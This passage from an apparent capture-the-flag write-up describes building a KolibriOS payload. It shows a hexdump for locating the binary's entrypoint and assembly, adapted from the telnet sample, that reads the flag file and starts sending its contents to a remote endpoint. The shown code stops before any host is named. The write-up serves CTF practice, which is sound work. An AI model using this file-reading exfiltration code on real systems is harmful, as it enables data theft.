 
We can get the entrypoint either by copying the binary to the kolbri.img and load it into the debugger or read the file header with:

```bash
> head test -c 16 | hexdump -C
00000000  4d 45 4e 55 45 54 30 31  01 00 00 00 24 00 00 00  |MENUET01....$...|
00000010
```

In this case the Entrypoint is `0x24`

And It works:

![Setup test](https://gfelber.dev/img/setup.png)

#### Payload

In order to read and extract the flag we need to understand the kernel, especially syscalls. Even though there isn't any good documentation we are provide a lot of sample programs in the repository. The most interesting ones are:

* *programs/network/telnet/telnet.asm* 

  a telnet implementation for KolibriOS that can be used for creating a remote connection to our extraction URL

* *programs/network/pasta/pasta.asm* 

  a tool that sends files or clipboard content to [dpaste.com](http://dpaste.com), this gives us an example on how to read files



we use *programs/network/telnet/telnet.asm* as our template

```assembly
...
; send data routine
thread:
        mcall   40, 0

        mcall   68, 12, 32768						; read flag file
        test    eax, eax
        jz      .error
        mov     [file_struct.buf], eax
        mov     [clipboard_data], eax
        mcall   70, file_struct
        cmp     eax, 6
        jne     .error
        mov     [clipboard_data_length], ebx
        mov     eax, [clipboard_data]

        jmp .loop
        
  .error:
        mov     ecx, 0xc
        mov     esi, file_error
        mov     edi, clipboard_data
        rep movsb


  ; send data to Remote
  .loop:
        mov     ebx, [counter]
        mov     esi, [clipboard_data]
        add     esi, ebx
        add     ebx, 2
        mov     [counter], ebx
        mov     ax, [esi]
```